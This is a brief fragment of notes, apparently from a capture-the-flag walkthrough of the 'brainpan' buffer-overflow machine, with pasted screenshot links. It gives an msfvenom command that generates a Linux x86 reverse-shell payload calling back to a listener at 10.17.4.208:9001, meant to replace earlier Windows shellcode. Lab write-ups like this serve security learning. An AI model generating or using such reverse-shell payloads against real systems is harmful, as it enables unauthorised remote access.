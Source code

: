 we are in a linux box via the brainpan binary running via wine

![[Pasted image 20210531155117.png]]

now lets get the linux shell and use `x86` architecture 

`msfvenom -p  linux/x86/shell_reverse_tcp LHOST=10.17.4.208 LPORT=9001 EXITFUNC=thread -f c -b "\x00"`

replace it with the windows shell code


![[Pasted image 20210531162630.png]]

